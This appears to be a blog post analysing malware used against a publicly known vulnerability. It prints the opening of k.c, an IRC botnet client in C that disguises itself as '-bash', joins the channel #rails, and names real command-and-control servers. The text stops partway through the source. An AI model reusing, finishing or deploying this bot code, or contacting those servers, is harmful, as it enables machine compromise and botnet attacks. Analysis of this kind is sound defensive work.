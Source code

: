 In short, this is a pretty straightforward skiddy exploit of a vulnerability that has been publicly known, and warned about, for months.

That isn't to say it won't make a bad day for some people, though.

Full source of k.c follows;
{% highlight c }
{% raw %}
////////////////////////////////////////////////////////////////////////////////
//                                EDIT THESE                                  //
////////////////////////////////////////////////////////////////////////////////
#undef STARTUP // Start on startup?
#undef IDENT // Only enable this if you absolutely have to
#define FAKENAME "-	bash" // What you want this to hide as
#define CHAN "#rails"         // Channel to join
#define TEMPDIR "/var/tmp"          // Where to save generated ips text file
#define KEY ""   // The key of the channel
#define VERSION "0.1"          // dfnctsc-kaiten release version
#define PORT 6667       // Port of server(s)
int numservers = 1; // Must change this to equal number of servers down there
char *servers[] = {// List the servers in that format, always end in (void*)0
    "cvv4you.ru",
    "188.190.124.120",
    (void*) 0
};
////////////////////////////////////////////////////////////////////////////////
//                               STOP HERE!                                   //
////////////////////////////////////////////////////////////////////////////////
#include <stdarg.h>
#include <errno.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <strings.h>
#include <netinet/in.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/socket.h>
#include <signal.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <time.h>
#include <ctype.h>
#include <sys/wait.h>
#include <sys/ioctl.h>

int sock, changeservers = 0;
char *server, *chan, *key, *nick, *ident, *user, execfile[256], dispass[256];
unsigned int *pids;
unsigned long spoofs = 0, spoofsm = 0, numpids = 0, running = 0;

int strwildmatch(const char* pattern, const char* string) {
    switch (*pattern) {
        case '\0': return *string;
        case '*': return !(!strwildmatch(pattern + 1, string) || *string && !strwildmatch(pattern, string + 1));
        case '?': return !(*string && !strwildmatch(pattern + 1, string + 1));
        default: return !((toupper(*pattern) == toupper(*string)) && !strwildmatch(pattern + 1, string + 1));
    }
}

int send_msg(int sock, char *words, ...) {